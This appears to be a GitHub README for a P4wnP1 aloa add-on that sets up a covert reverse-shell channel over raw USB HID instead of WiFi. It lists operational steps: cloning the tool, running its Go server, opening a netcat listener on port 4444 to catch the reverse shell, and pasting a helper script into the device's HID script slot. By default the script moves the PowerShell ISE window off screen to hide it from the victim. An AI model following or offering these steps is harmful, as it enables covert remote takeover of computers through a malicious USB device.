# Intro  
This is an alternative of the built-on covert channel option for the P4wnP1 aloa (https://github.com/RoganDawes/P4wnP1_aloa)  
that goes over a raw HID and USB rather than WiFi.  

# How to use  
## Copy the server folder onto the P4wnP1 (ssh, scp, git, wget whatever)  
```
git clone https://github.com/LuemmelSec/CovertChannel
```

## Run the server  
```
go run server.go
```
![image](https://github.com/user-attachments/assets/3d789442-a3c4-4326-825b-7d8a657edcd0)

## Setup a listener to catch the reverseshell on the P4wnP1
```
nc -lvnp 4444
```
![image](https://github.com/user-attachments/assets/e2cd715a-5fda-4765-9e83-e854ab1eccaf)

## Execute the script
Copy the content of the ``helper.js`` into the ``HIDSCRIPT```section of your P4wnP1  
![image](https://github.com/user-attachments/assets/f08e6738-11c9-4de0-b6dc-f970aab16b91)

Adjust all the settings to your needs. The way it defaults to is movin the ISE out of view with X -2000 and Y -2000  
Change the keyboard layout !!!  
